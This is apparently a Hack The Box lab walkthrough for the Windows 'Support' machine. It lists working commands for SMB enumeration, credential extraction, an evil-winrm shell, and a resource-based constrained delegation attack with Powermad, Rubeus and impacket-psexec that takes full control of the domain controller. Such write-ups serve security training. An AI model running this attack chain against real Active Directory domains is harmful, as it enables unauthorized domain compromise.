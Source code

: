 # Support - HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Support-green?logo=hackthebox)](https://app.hackthebox.com/machines/484)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

This writeup covers the full exploitation of the Support machine on Hack The Box, which involves enumerating SMB shares, reverse engineering a .NET executable to extract LDAP credentials, performing LDAP enumeration, gaining a foothold via WinRM, and escalating privileges using a Resource-Based Constrained Delegation (RBCD) attack to compromise the Domain Controller as Administrator.

---

## Table of Contents

- [Enumeration and Initial Access](#enumeration-and-initial-access)  
- [Reverse Engineering and Credential Extraction](#reverse-engineering-and-credential-extraction)  
- [LDAP Interaction and Foothold](#ldap-interaction-and-foothold)  
- [Active Directory Enumeration and Relationship Mapping](#active-directory-enumeration-and-relationship-mapping)  
- [Privilege Escalation via Resource-Based Constrained Delegation (RBCD)](#privilege-escalation-via-resource-based-constrained-delegation-rbcd)  
- [Kerberos Ticket Forging with Rubeus](#kerberos-ticket-forging-with-rubeus)  
- [Ticket Conversion and Getting SYSTEM Shell](#ticket-conversion-and-getting-system-shell)  
- [Stepwise PoC](#stepwise-poc)
- [Tools Summary](#tools-summary)

---

## Enumeration and Initial Access

**Scan all ports at high speed to detect open services**

`ports=$(nmap -p- --min-rate=1000 -T4 10.129.125.233 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`

**Scan the discovered ports with default scripts and service detection**

`nmap -p$ports -sC -sV 10.129.125.233`

**List available SMB shares**

`smbclient -L \10.129.125.233\`

**Connect anonymously to 'support-tools' SMB share**

`smbclient \10.129.241.189\support-tools`

**List files in the share**

`dir`

**Download UserInfo.exe.zip for analysis**

`get UserInfo.exe.zip`

**Extract the downloaded archive**

`unzip UserInfo.exe.zip`

**Download ILSpy to reverse engineer .NET executable**

```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
```
---

## Reverse Engineering and Credential Extraction

**Decrypt the password using a Python script (PassDecoder.py)**
```
python3 PassDecoder.py
Output:
Username: ldap@support.htb
Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
**Add hostname mapping for LDAP resolution**

`echo '10.129.113.162 support.htb' | sudo tee -a /etc/hosts`

---

## LDAP Interaction and Foothold

- Connect with Apache Directory Studio using extracted credentials:

  - Username: `support`  
  - Password: `Ironside47pleasure40Watchful`

- Remote shell to the machine via WinRM:
`evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb`

- Query domain information and group memberships:

```
Get-ADDomain
whoami /groups
```
- Add domain controller hostname to hosts file:
`echo '10.129.113.162 dc.support.htb' | sudo tee -a /etc/hosts`

---

## Active Directory Enumeration and Relationship Mapping

**Run BloodHound enumeration**

`bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.241.189 -c all --zip`

---

## Privilege Escalation via Resource-Based Constrained Delegation (RBCD)

**Import the PowerMad module for machine account manipulation**

`Import-Module .\Powermad.ps1`

**Add a fake computer account with a password**

`New-MachineAccount -MachineAccount FAKECOMP1 -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)`

**Get details, especially the SID, of the new computer account**

`Get-ADComputer -identity FAKECOMP1`

**Configure delegation on the Domain Controller to allow the fake computer to impersonatev

`Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKECOMP1$`

**Verify the delegation change**

`Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount`

---

## Kerberos Ticket Forging with Rubeus

**Generate the NTLM hash for the fake computer password**
```
./Rubeus.exe hash /password:Password123! /user:FAKECOMP1$ /domain:support.htb
Sample output hash: 2B576ACBE6BCFDA7294D6BD18041B8FE
```

**Request and inject a Kerberos ticket impersonating Administrator**

`./Rubeus.exe s4u /user:FAKECOMP1$ /rc4:2B576ACBE6BCFDA7294D6BD18041B8FE /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt`

---

## Ticket Conversion and Getting SYSTEM Shell

**Remove all line breaks and spaces from the base64 ticket, save it as .b64**

`echo "BASE64_TICKET_STRING_HERE" | tr -d '\n\r ' > ticket.b64`

**Decode the base64 ticket to binary .kirbi format**

`base64 -d ticket.b64 > ticket.kirbi`

**Convert the .kirbi ticket to a .ccache file usable by Impacket**

`impacket-ticketConverter ticket.kirbi ticket.ccache`

**Use the ccache ticket with Impacket’s psexec to get SYSTEM shell on domain controller**

`KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass`

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1249" height="564" alt="1" src="https://github.com/user-attachments/assets/ab04cdd3-94d2-4c7d-92a0-fc046b7e7b89" />
<img width="956" height="212" alt="2" src="https://github.com/user-attachments/assets/1016e370-7442-47d2-97bb-59a6fbca1424" />
<img width="756" height="68" alt="3" src="https://github.com/user-attachments/assets/f9ad9360-f2c8-48dd-be15-81384ca5188c" />
<img width="1092" height="838" alt="4" src="https://github.com/user-attachments/assets/6b59b6c5-e6d2-4e02-8a51-283815be340c" />
<img width="1897" height="780" alt="5" src="https://github.com/user-attachments/assets/bafd9087-6de3-4158-a1cb-775135fd683f" />
<img width="1460" height="698" alt="6" src="https://github.com/user-attachments/assets/66fa8c8c-2d3c-4a9c-8f65-7ee4593fe022" />
<img width="968" height="210" alt="7" src="https://github.com/user-attachments/assets/fb705c99-075d-4af8-b1a8-e3aa50f5a504" />
<img width="1365" height="507" alt="8" src="https://github.com/user-attachments/assets/96c4a2ed-64b1-4125-b520-800a183c2060" />
<img width="984" height="391" alt="9" src="https://github.com/user-attachments/assets/75fc7c91-1abc-4485-9505-fdebbb4a1491" />
<img width="1014" height="467" alt="10" src="https://github.com/user-attachments/assets/b3d27fc1-6d23-4c5a-a9a2-ffe7fcc1fc72" />
<img width="991" height="685" alt="11" src="https://github.com/user-attachments/assets/f558fab8-2406-4680-ad13-ece8413027f3" />
<img width="1911" height="789" alt="12" src="https://github.com/user-attachments/assets/6836a971-c6df-4f28-ae04-837d2c796475" />
<img width="864" height="118" alt="13" src="https://github.com/user-attachments/assets/807803f7-7d65-4068-a6b8-01e36a789e67" />
<img width="1178" height="815" alt="14" src="https://github.com/user-attachments/assets/81cbf54c-f800-44aa-a9be-d8f698cbf129" />
<img width="1004" height="510" alt="15" src="https://github.com/user-attachments/assets/df15d2a2-69b5-4225-a661-b6b66b99abc5" />
<img width="1848" height="807" alt="16" src="https://github.com/user-attachments/assets/b3e23080-366d-436a-abda-f017f0b1cb74" />
<img width="1816" height="763" alt="17" src="https://github.com/user-attachments/assets/f8384c0a-f625-44e5-b2ba-f4ebddfb6c30" />
<img width="749" height="870" alt="18" src="https://github.com/user-attachments/assets/d9891e99-25b3-442c-adbc-e0642e7dfb22" />
<img width="1895" height="852" alt="19" src="https://github.com/user-attachments/assets/9b8bfdcf-6133-4cd6-9669-fcefbb6b76e5" />
<img width="1169" height="822" alt="20" src="https://github.com/user-attachments/assets/5db4b74c-c89e-457f-993f-ce5f0b02869f" />
<img width="891" height="101" alt="21" src="https://github.com/user-attachments/assets/44b43841-3d26-4b03-b38e-bdc3f349a4ed" />
<img width="423" height="51" alt="22" src="https://github.com/user-attachments/assets/ca20c601-f7c4-4cd0-9814-35c6f0ffbcc8" />
<img width="676" height="404" alt="23" src="https://github.com/user-attachments/assets/2f93083a-e838-41b2-8cee-d39854d72b1e" />
<img width="1920" height="771" alt="24" src="https://github.com/user-attachments/assets/ad6ec93d-78dc-4668-9991-f4f46ba75c46" />
<img width="1920" height="897" alt="25" src="https://github.com/user-attachments/assets/9da4c318-729a-44e3-98d2-2afe0cd799aa" />
<img width="1920" height="884" alt="26" src="https://github.com/user-attachments/assets/6c150a64-46ec-433d-abaa-0db6ffa32209" />
<img width="952" height="810" alt="27" src="https://github.com/user-attachments/assets/b3aba4cf-6bb3-4963-91e4-428a0a175b36" />
<img width="1003" height="213" alt="28" src="https://github.com/user-attachments/assets/1781f208-0130-4435-9d69-dab6578c1f41" />
<img width="1849" height="753" alt="29" src="https://github.com/user-attachments/assets/1cf547fc-3f03-46ac-bce9-9b23b92a2864" />
<img width="1467" height="571" alt="30" src="https://github.com/user-attachments/assets/4b767b63-826f-4e11-961f-b1ff61f44cb3" />
<img width="1114" height="465" alt="31" src="https://github.com/user-attachments/assets/8530b13d-eca8-4fbf-bcd7-c24e0aa2a334" />
<img width="1572" height="824" alt="32" src="https://github.com/user-attachments/assets/d4fb9f6a-aebf-4bb7-8480-af2fda02ce54" />
</details>

---

## Tools Summary

| Tool                     | Purpose                                           |
|--------------------------|--------------------------------------------------|
| `nmap`, `smbclient`      | Port and SMB share enumeration                    |
| `ldapsearch`, ApacheDS   | LDAP enumeration and user discovery               |
| `evil-winrm`             | Remote shell access over WinRM                     |
| BloodHound, SharpHound   | AD relationship and privilege graph analysis      |
| PowerMad, PowerView      | AD machine account manipulation and enumeration   |
| Rubeus                   | Kerberos ticket manipulation and forging          |
| Impacket-ticketConverter | Kerberos ticket format conversion                   |
| `impacket-psexec`        | Remote command execution with Kerberos ticket     |
| ILSpy                    | Decompile .NET executables                          |
| Wine                     | Run Windows binaries on Linux                       |

---

This walkthrough enables anyone to follow and reproduce the full exploitation of the Support HTB machine from enumeration to full domain compromise.

--- 








